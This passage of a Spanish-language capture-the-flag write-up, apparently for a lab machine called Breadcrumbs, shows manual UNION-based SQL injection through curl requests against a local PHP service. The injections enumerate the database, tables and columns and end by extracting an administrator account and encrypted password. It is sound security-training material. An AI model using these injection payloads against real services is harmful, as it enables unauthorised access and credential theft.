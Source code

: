 Ese puerto no lo identificamos en nuestro escaneo, usamos `netstat -ant` para verificar internalmente

![internal](/assets/img/Linux/Breadcrumbs/internal.png)

Asi que procedemos: 

```bash
curl "http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords"
```

Nos arroja devuelta esto:

```php
selectarray(1) {  [0]=>  array(1) {    ["aes_key"]=>    string(16) "k19D193j.<19391("  }}
```

Tenemos una key AES.  Apartir de aqui podemos proceder de dos formas, SQLi manual o SQLMAP. Hagamos las dos.

## SQLi Manual

Vamos hacer un Union Select 

```bash
curl "http://127.0.0.1:1234/index.php?method=select&username='+union+select+1%23&table=passwords"
```

![sqli_manual](/assets/img/Linux/Breadcrumbs/sqli_manual.png)

Identifiquemos la DB

```bash
curl "http://127.0.0.1:1234/index.php?method=select&username='+union+select+database()%23&table=passwords"selectarray(1) {  [0]=>  array(1) {    ["aes_key"]=>    string(5) "bread"  }}
```

DB: Bread

Ahora sacamos las tablas:

```bash
curl "http://127.0.0.1:1234/index.php?method=select&username='+union+select+group_concat(table_name)+from+information_schema.tables+where+table_schema='bread'%23&table=passwords"selectarray(1) {  [0]=>  array(1) {    ["aes_key"]=>    string(9) "passwords"  }}
```

Luego vamos por la columnas:

```bash
curl "http://127.0.0.1:1234/index.php?method=select&username='+union+select+group_concat(column_name)+from+information_schema.columns+where+table_name='passwords'%23&table=passwords"selectarray(1) {  [0]=>  array(1) {    ["aes_key"]=>    string(27) "id,account,password,aes_key"  }}
```



y por ultimo sacamos el id,account y password:

```bash
curl "http://127.0.0.1:1234/index.php?method=select&username='+union+select+group_concat(id,account,password)+from+bread.passwords%23&table=passwords"selectarray(1) {  [0]=>  array(1) {    ["aes_key"]=>    string(58) "1AdministratorH2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw="  }}#Separandolo un poco tenemos : 1 Administrator H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw=
```
